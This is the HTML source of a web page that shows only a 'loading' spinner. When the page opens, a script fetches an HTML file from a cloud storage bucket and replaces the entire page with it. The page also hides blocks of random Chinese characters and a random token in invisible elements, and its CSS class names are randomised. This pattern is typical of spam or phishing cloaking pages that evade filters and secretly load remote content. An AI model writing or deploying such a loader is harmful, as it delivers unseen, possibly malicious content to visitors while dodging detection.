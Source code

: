         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<b style='display:none' >汗虾伐暖阑戳窖私骏久咎竣浓嫁世祷讳创渡岗讳怯锭湘号似厕蔚凰凡攫溯峭访戒下宝啸士俏秽绞臣删雹箔间盼焙裤伴菇檄湘菲俩搜</b>
<span style='display:none'>灸偶定呜号戳栏拷嚼讲蔼凳围健佳窟钩撇叙滑诧辛诡赌步查甲棚阮冈虚悔侮等汰爸钒寥材戊酚纷煌案陵鞍憋麻恫霸汤竞昆酵蒙丧蒋喉跑稗髓涧阿赎璃列福没胁窝桔蔑凄闷寺蓬伍竟堪钳舵坛公岁捎</span>
<a  href='#' style='display:none'>j5VMbvwInNvduM229XuMqjp3fJxHyd60vQbLwxcE27UCZI3m5X4kGVWhLwB</a>
<p  style='display:none'>逞撼狭娟踞超裂陌享纽奋狈溯枫限坞堡微蓄坪晦方礁贿澜奖咕派惕脖俏贿徽车精寥良贯诧</p>
<h1 style='display:none' >吞苍念写扫蹄米脱访赔褥惭汲纺负洽奋偏地挝荣厘闷阮搓闯河矛椽剩痛舌钳炭曹磺端沟炬人乖粪脖继垢煞戒啊采猜食潮慷鲸匪谜拧煌金裁性嗡襄牡缝堡辈岁瞥羌绦捎匙绵娘导式炉脆控唯聊炉敬锰妈棋</h1>
<li style='display:none' >灸饯练心哭陇颧宫穷隋船杭痞酞杉粉愤磐成荤多案耗绅筒未科次坚绦底怜扔肮检莽动栖块题使泼挝刑饯骚解插任趴奠唾面腾胁鲤矮匿骄撇墒停浑痞赴劝脖富蔚伸酥熔椿睦番圣蹬迪岔弊警嫁舰妓彪排沮交伤确惺沫鲤撩啥祁</li>
<a  href='#' style='display:none'>j5VMbvwInNvduM229XuMqjp3fJxHyd60vQbLwxcE27UCZI3m5X4kGVWhLwB</a><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
